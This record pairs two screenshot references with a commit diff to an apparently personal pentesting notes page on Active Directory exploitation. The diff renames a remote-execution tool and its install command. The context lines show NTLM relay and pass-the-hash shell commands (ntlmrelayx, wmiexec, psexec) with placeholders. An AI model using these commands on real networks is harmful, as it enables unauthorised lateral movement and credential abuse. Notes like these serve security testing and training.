

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/ADExploitation.md, in a window 1280 px wide and 900 px high, scrolled down 8368 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
updated exec-across-windows to authfinder

```diff
--- a/markdown/ADExploitation.md
+++ b/markdown/ADExploitation.md
@@ -332,8 +332,8 @@
     - `python3 ntlmrelayx.py -t ldaps://{IP} --no-multirelay -smb2support -i --remove-mic-partial --keep-relaying`
 
 ## Getting execution with credentials or hashes
-- Feeling lazy? Try [exec_across_windows.py](https://github.com/KhaelK138/exec-across-windows), a tool I wrote which attempts to use every method to run some command across a range of IPs
-  - Install with `pip install exec-across-windows`
+- Feeling lazy? Try [authfinder](https://github.com/KhaelK138/authfinder), a tool I wrote which attempts to use every method to run some command across a range of IPs
+  - Install with `pipx install authfinder`
 - Shells:
   - 135 - use `wmiexec.py -hashes :{hash} '{domain}/{user}@{ip}'`
   - 139/445 - use `psexec.py -hashes :{hash} '{domain}/{user}@{ip}'` or `smbexec.py`
```
